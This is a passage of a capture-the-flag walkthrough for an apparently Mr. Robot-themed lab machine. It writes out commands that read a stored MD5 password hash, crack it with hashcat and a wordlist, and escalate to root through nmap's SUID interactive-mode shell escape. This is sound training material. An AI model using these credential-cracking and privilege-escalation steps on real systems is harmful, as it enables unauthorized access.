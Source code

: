 
## 🧰 Foothold → User

Inspect `/home/robot`:
```bash
ls -la /home/robot
cat /home/robot/password.raw-md5
```
Hash format:
```
robot:c3fcd3d76192e4007dfb496cca67e13b
```

Crack with hashcat (MD5):
```bash
hashcat -m 0 --force hash /usr/share/wordlists/rockyou.txt
```
Recovered password ➜ <details><summary><strong>Reveal robot password</strong></summary></details>

Switch user:
```bash
su robot
```

Grab **key-2** (hidden below in Answers).

---

## 🧨 Privilege Escalation (SUID/SGID)

Find SUID binaries:
```bash
find / -perm -u=s -type f 2>/dev/null
```

Notable finding:
```
/usr/local/bin/nmap
```

Old **nmap interactive mode** can spawn a shell:
```bash
nmap --interactive
nmap> !sh
# whoami
# cd /root && ls -l && cat key-3-of-3.txt
```

---

## 🧩 Answers (Hidden)

> Click to reveal each answer.

<details><summary><strong>Key 1</strong> (click to reveal)</summary></details>

<details><summary><strong>Key 2</strong> (click to reveal)</summary></details>

